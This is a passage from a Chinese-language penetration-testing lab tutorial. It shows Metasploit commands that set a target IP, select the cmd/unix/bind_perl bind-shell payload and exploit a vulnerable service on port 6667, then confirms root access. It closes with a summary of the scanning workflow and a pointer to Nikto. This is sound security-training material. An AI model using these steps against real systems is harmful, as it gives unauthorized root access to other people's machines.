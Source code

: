 ```
set RHOST 192.168.122.102

#这里面要加载payloads
show payloads
#显示完成加载后，选择

```
![image](https://user-images.githubusercontent.com/26474049/235912487-7237730c-22ab-4940-b433-7e07bf372b42.png)
#选择palyload
set payload cmd/unix/bind_perl
然后进行攻击：

```
exploit
```
![实验楼](https://dn-simplecloud.shiyanlou.com/2120081479716957093-wm)


### 4.4 验证攻击成功与否

下面我们在终端中，验证对端口 `6667` 渗透攻击成功与否：

通过输入`whoami` 查看当前用户命令，和 `hostname` 主机名字命令来验证是否渗透成功：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479717166910.png-wm)

由图可知，登录用户为 `root`，目标主机已经渗透成功。


## 五、总结

通过本实验的学习，掌握了网络扫描的基本流程。让我们再回顾一遍，网络扫描的基本流程为：发现目标主机、端口扫描、 指纹信息扫描、漏洞扫描、实施渗透攻击。

其中使用 Nmap 进行端口扫描。在实验中，演示了利用端口 `6667` 的漏洞，进行攻击的流程。并对端口的成功与否进行验证。希望在做实验的同学，重视信息收集这一块工作。

只有更好地，更全面地收集目标靶机的漏洞，我们才能够更好的地进行渗透工作。

## 六、推荐阅读

下面这个工具 `Nikto2` 是非常不错的Web漏洞扫描软件。希望有能力的同学，能够阅读一下，

> https://cirt.net/Nikto2

Nikto 是一款开放源代码的、功能强大的 WEB 扫描评估软件，能对web服务器多种安全项目进行测试的扫描软件，能在 230 多种服务器上扫描出 2600 多种有潜在危险的文件、CGI 及其他问题，它可以扫描指定主机的 WEB 类型、主机名、特定目录、COOKIE、特定 CGI 漏洞、返回主机允许的 http 模式等等。它也使用 LibWhiske 库，但通常比 Whisker 更新的更为频繁。

## 七、课后作业

本节课程实验理论较多，希望大家能够好好地了解扫描目标主机网络服务安全漏洞的工具。掌握渗透攻击的基本流程。现在请你完成以下作业：

- 了解扫描目标主机网络服务安全漏洞的工具
- 掌握网络扫描基本流程
- 掌握渗透工具流程

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。
